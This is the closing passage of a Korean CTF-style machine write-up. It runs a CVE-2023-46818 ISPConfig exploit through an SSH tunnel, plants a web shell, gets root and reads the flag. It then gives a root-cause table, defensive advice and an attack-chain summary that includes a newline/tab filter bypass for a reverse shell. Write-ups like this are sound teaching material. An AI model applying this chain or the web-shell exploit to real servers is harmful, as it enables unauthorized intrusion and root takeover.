

로컬 포워딩된 ISPConfig 인스턴스에 익스플로잇을 실행한다.

```bash
python3 CVE-2023-46818.py http://127.0.0.1:8080 admin slowmotionapocalypse
```



웹 쉘이 `http://127.0.0.1:8080/admin/sh.php`에 삽입되고 인터랙티브 `ispconfig-shell` 세션이 연결됐다.

### Root 쉘 획득

```bash
id
whoami
```



```bash
cat /root/root.txt
```



---

## Vulnerability Root Cause Analysis

| 취약점 | 위치 | 근본 원인 | OWASP |
|--------|------|-----------|-------|
| IDOR | `view.php` | `username` 파라미터를 세션 유저와 대조하지 않음 | A01 Broken Access Control |
| LFI (파일 목록 노출) | `view.php` | 확장자는 유효하나 파일이 없을 때 에러 응답에 파일 목록이 포함됨 | A01 Broken Access Control |
| Command Injection | `admin.php` 백업 기능 | 블랙리스트 필터가 개행 문자(`\n`)와 탭 문자를 누락 | A03 Injection |
| 크리덴셜 평문 노출 | `amanda/privacy.odt` | 비밀번호가 사용자 업로드 문서에 평문으로 저장 | A02 Cryptographic Failures |
| 취약한 해시 알고리즘 | SQLite DB | MD5는 암호학적으로 파괴된 알고리즘으로 사전 공격에 취약 | A02 Cryptographic Failures |
| 비밀번호 재사용 | ISPConfig 어드민 | OS 계정 비밀번호를 ISPConfig 어드민 계정에 동일하게 사용 | A07 Identification and Authentication Failures |
| CVE-2023-46818 | ISPConfig 3.2.10p1 | 언어 파일 편집기를 통한 인증된 PHP 코드 인젝션 | A03 Injection |

### 실제 환경에서의 위험성

커맨드 인젝션 취약점은 블랙리스트 기반 입력 필터링이 근본적으로 신뢰할 수 없음을 잘 보여준다. 개발자는 명백한 쉘 메타문자(`;`, `&`, `|`, `$`, 공백)를 차단했지만 개행 문자와 탭 문자를 누락했다. 두 문자 모두 유닉스 쉘에서 명령어 구분자 또는 인자 구분자로 기능한다. `escapeshellarg()` / `escapeshellcmd()`를 올바르게 사용하거나 화이트리스트 검증을 적용했다면 이 공격 벡터는 완전히 차단됐을 것이다.

IDOR 취약점은 특별한 기술 없이도 URL 파라미터 하나만 변경하면 타인의 파일에 접근할 수 있다는 점에서 심각하다. 모든 요청에서 세션과 `username` 파라미터의 일치 여부를 서버 측에서 검증해야 한다.

OS 계정과 ISPConfig 어드민 간의 비밀번호 재사용은 하나의 크리덴셜 탈취가 여러 시스템으로 확산되는 경로를 보여준다. 서비스별 고유 크리덴셜 사용이 수평 이동을 제한하는 핵심이다.

---

## Attack Chain Summary

| 단계 | 기술 | 도구 |
|------|------|------|
| 포트 스캔 | TCP 열거 | nmap |
| 디렉토리 열거 | 웹 콘텐츠 탐색 | gobuster |
| 유저 열거 | IDOR + 에러 메시지 차이 | ffuf |
| 파일 목록 노출 | 유효한 확장자로 LFI 우회 | curl |
| 크리덴셜 탈취 | IDOR — 타 유저 파일 다운로드 | browser |
| 리버스 쉘 | `%0a`/`%09` 필터 우회 커맨드 인젝션 | curl, nc |
| 쉘 안정화 | PTY 업그레이드 | python3, stty |
| 해시 추출 | www-data 권한으로 SQLite DB 읽기 | sqlite3 |
| 해시 크랙 | MD5 사전 공격 | hashcat |
| 수평 이동 | 크랙된 비밀번호로 SSH 접속 | ssh |
| 포트 포워딩 | SSH 로컬 터널로 ISPConfig 노출 | ssh -L -N |
| root RCE | CVE-2023-46818 ISPConfig PHP 인젝션 | python3 PoC |
| 플래그 획득 | root 쉘에서 파일 읽기 | cat |
